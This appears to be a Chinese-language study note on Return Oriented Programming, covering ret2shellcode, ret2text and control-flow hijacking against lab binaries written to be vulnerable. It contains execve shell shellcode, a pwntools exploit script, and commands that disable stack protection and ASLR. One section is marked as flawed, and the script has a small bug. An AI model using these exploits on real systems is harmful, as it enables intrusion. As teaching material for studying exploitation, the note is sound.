










# 什么是ROP

​		ROP 全称为 Return Oriented Programming，即返回导向编程，是一种高级的内存攻击技术可以用来绕过现代操作系统的各种通用防御（比如内存不可执行和代码签名等）。栈溢出的控制点是ret处，那么ROP的核心思想就是利用以ret结尾的指令序列把栈中的应该返回EIP的地址更改成我们需要的值，从而控制程序的执行流程。

# ROP的 目的

​		**ROP可以绕过一般通用的防御机制**，例如NX（No-execute），NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。开启NX 保护机制后，直接向栈或者堆上直接注入代码的方式难以继续发挥效果。ROP就是绕过这种机制的一种办法。

# 基本ROP

## 1.ret2shellcode

### 原理

​		**ret2shellcode**，ret to shellcode，就是将返地址覆盖到我们插入shellcode的首地址。（普通栈溢出漏洞利用，需要在NX未开启的前提下）

### 简单例子

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
int main(int argc, char **argv) {
char buffer[256];
if(argc != 2) {
exit(0);
}
printf("%p\n", buffer);
strcpy(buffer, argv[1]);
printf("%s\n", buffer);
return 0;
}
```

使用gcc编译

```
gcc -m64 bof.c -o bof -z execstack -fno-stack-protector -g
```

分析程序：

```
溢出发生在 strcpy，将main函数调用前入栈的rip的值覆盖
触发发生在main函数调用结束，ret返回时弹出溢出的rip 并且执行。
所以需要找到：
	buffer的起始地址（shellcode 的起始地址）
	ret 的地址
	之间的缓冲区的大小
```

首先使用若干个 “A” 填充，发现起始地址为 `0x7fffffffddf0`

```
run $(python -c  'print "A" * 260 ')
```



然后执行到ret 时观察rsp的地址 为`0x7fffffffdef8`




所以缓冲区的大小就是  `def8-ddf0 = x0108 = 264`

真正的shellcode  32字节 ，剩余用A填充（264-32=232）

```
\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05
```

```
./bof $(python -c 'print "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05" +  "A" * 232+"\x7f\xff\xff\xff\xdd\xf0"[::-1]')
```

## 2.ret2text   （有问题）

### 原理

ret2text，控制返回地址指向程序本身已有的的代码(.text)并执行。这时，需要知道对应返回的代码的位置。

### 例子

​		手动码一个带栈溢出问题的程序，这个程序有两个子函数func和sys，func中gets位置存在栈溢出，而sys函数未被任何函数调用。

```
//ret2text.c
#include <stdlib.h>
int sys(){
	system("/bin/shn");
}
int func(){
	char a[10];
	gets(a);
	puts(a);
}
int main(){
	func();
}	
```

​		为了方便学习分析，这次先不加入canary机制和地址随机化问题的干扰，这些机制的绕过方式放在后面统一归纳总结。所以在gcc编译过程中加入参数使其关闭这两个保护机制，并打开-g调试选项，使用如下方式进行编译。

```
gcc ret2text.c -g  -fno-stack-protector -no-pie  -o ret2text64 
```

### ROP过程

问题分析

首先我们将程序gdb中，使用checksec查看一下安全机制（虽然这个题目的安全机制我们已经提前知道）



​		分析这个程序，从ret2text的原理来看，我们需要覆盖通过func函数中的局部变量a的溢出，覆盖func函数的返回地址，将其引导到sys函数的地址就可以获取shell。


所以我们需要的信息有以下几点：
1.局部变量a的地址
2.func()	函数的返回地址
3.sys函数的地址


A的起始地址为 0x7fffffffdfe6




func的返回地址为 0x7fffffffdff8

所以要缓冲区要覆盖  ` 0x7fffffffdff8 - 0x7fffffffdfe6 =0x12 =18`    +4字节返回

**使用radare2查找sys函数的地址**



00401176


然后写出exp：

```
from pwn import *

p = process("./ret2text64")
payload = b"A"*18 + p64(0x401176)
p.sendline(payload)
p.interactive
```


# **Control Flow Hijack 程序流劫持**

```c
#undef _FORTIFY_SOURCE
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void vulnerable_function(){
	char buf[128];
	read(STDIN_FILENO,buf,256);
}

int main(int arcg,char** argv)
{
	vulnerable_function();
	write(STDOUT_FILENO,"Hello,World\n",13);
}
```


```
gcc -fno-stack-protector -z execstack -olevel1 level1.c -m32//关掉DEP和Stack Protector

sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space" //关掉整个linux系统的ASLR保护。
cat /proc/sys/kernel/randomize_va_space  //查看
```

我们开始对目标程序进行分析。首先我们先来确定溢出点的位置

首先使用gdb-gef启动，在	`read@plt`	处下断点，先用100个 A测试



返回eip地址为  `0x5655621d `      

使用命令` x/20xg $esp `  查看缓冲区的起始地址，`0xffffd130`





返回地址为`0xffffd1bc`  缓冲区长度为`d1b0-d130 + 4 `=0x90+4 = 144




这是通常情况下寻找 缓冲区的起始地址和  返回地址

但当真的执行exp的时候你会发现shellcode压根就不在这个地址上！这是为什么呢？原因是gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行./level1的时候，buf的位置会固定在别的地址上。怎么解决这个问题呢？



最简单的方法就是开启core dump这个功能。

```
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```


[一步一步学ROP之linux_x86篇 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/23487280)

[一步一步学ROP之linux_x64篇 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/23537552)


